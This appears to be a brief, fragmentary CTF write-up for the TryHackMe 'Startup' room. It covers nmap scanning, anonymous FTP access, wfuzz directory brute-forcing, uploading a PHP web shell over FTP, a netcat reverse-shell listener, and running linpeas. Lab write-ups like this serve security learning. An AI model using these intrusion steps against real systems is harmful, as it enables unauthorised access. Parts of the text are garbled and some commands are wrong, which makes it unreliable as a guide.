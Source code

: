 ```yaml
---
layout: post
title: Startup | Tryhackme
date: 2021-11-05
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: startup/logo.png  # Add image post (optional)
tags: [] # add tag
---
```




Let's start....

file is a simple text file that associates IP addresses with hostnames, one line per IP address.

> sudo leafpad /etc/hosts

  ```
     ip   startup.thm
  ```
  
    sudo nmap -sC -sV startup.thm
     
    -sC is for running default scripts
    -sV is for enumerating version

<p align="left">
<img src="/assets/img/startup/nmap.png" width="350"/>
</p>

From the output, we can see we have 3 ports open. FTP is running on port SSH runs on port 22, while HTTP runs on port 80. Now we know what ports are open and what services they are running.FTP login with username is anonymous and password is anonymous.

> ftp startup.thm

<p align="center">
<img src="/assets/img/startup/ftp-dir.png" width="350"/>
</p>

> get important.jpg
>
> get notice.txt
>
In FTP, There is a file directory.
wfuzz -w /usr/share/SecLists/discovery/Webcontents/raft-large-directories.txt -u http://startup.thm/FUZZ

<p align="center">
<img src="/assets/img/startup/" width="350"/>
</p>

phpshell.php

> put phpshell.php

 Check the ip addr
 
> nc -lvnp 33456

> ls -la
> stty raw -echo 
> import TERM=xterm

upload linpease.sh file  
























